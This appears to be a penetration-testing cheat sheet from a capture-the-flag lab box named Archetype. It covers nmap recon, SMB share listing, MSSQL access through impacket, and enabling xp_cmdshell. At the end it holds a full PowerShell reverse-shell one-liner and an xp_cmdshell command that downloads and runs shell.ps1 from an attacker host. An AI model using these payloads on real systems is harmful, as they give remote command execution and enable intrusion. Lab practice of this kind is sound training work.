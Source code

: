 ## RECON

### Windows commands
Output the contents of a file
```
type potato
```

Show current user
```
whoami
```

### NMAP
Find TCP ports that are active
```
ports=$(nmap -p- --min-rate=1000 -T4 $TARGET_IP | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)

nmap -p- --min-rate=1000 -T4 $TARGET_IP -v
```

Scan the ports that we're found + service detection.
```

nmap -sC -sV -p$ports $TARGET_IP

laurentdumont@cr300-kali:~$ nmap -sC -sV -p 1433 10.10.10.27
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-12 12:37 EST
Nmap scan report for 10.10.10.27
Host is up (0.034s latency).

PORT     STATE SERVICE  VERSION
1433/tcp open  ms-sql-s Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2020-11-06T18:53:07
|_Not valid after:  2050-11-06T18:53:07
|_ssl-date: 2020-11-12T18:56:28+00:00; +1h18m29s from scanner time.

Host script results:
|_clock-skew: mean: 1h18m28s, deviation: 0s, median: 1h18m28s
| ms-sql-info: 
|   10.10.10.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433

```

### SMB (file sharing)
List Shares
```
smbclient -N -L \\\\$TARGET_IP\\
```

Connect to Share
```
smbclient -N \\\\$TARGET_IP\\backups
```

Get files from share
```
laurentdumont@cr300-kali:~$ smbclient -N \\\\10.10.10.27\\backups
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Nov 10 17:21:13 2020
  ..                                  D        0  Tue Nov 10 17:21:13 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020
  user.txt                            A       32  Tue Feb 25 09:37:36 2020

                10328063 blocks of size 4096. 7108669 blocks available

smb: \> get user.txt
getting file \user.txt of size 32 as user.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
```


### Using ImpPacket
```
git clone https://github.com/SecureAuthCorp/impacket
# Move the utility from ./examples into the root folder

# Run the utility
python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth

# OR INSTALL ALL EXAMPLES (execute in project root folder)
pip3 install .
```

### Microsoft SQL
#### Check if user is admin
```
SQL> SELECT IS_SRVROLEMEMBER ('sysadmin')
              

-----------   

          1   
```
IF `1` user is admin.

#### Validate in which context SQL Server is running and enable the 'xp_cmdshell' module.
```
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;

EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"

SQL>  xp_cmdshell "whoami" 
output                                                                             

--------------------------------------------------------------------------------   

archetype\sql_svc                                                                  

NULL
```

### NETCAT (nc)
Create a listener on tcp port 443
```
sudo nc -lvnp 443
```

#### Windows Shell
Attempt to connect to a listener and open a shell using TCP port 443. You need to replace the IP of the machine that is listening (with nc for example)
```
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() 
```

Execute the command on the SQL server. This will attempt to get the shell.ps1 file and execute it in the context of the user running the SQL server.
```
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.53/shell.ps1\");"
```
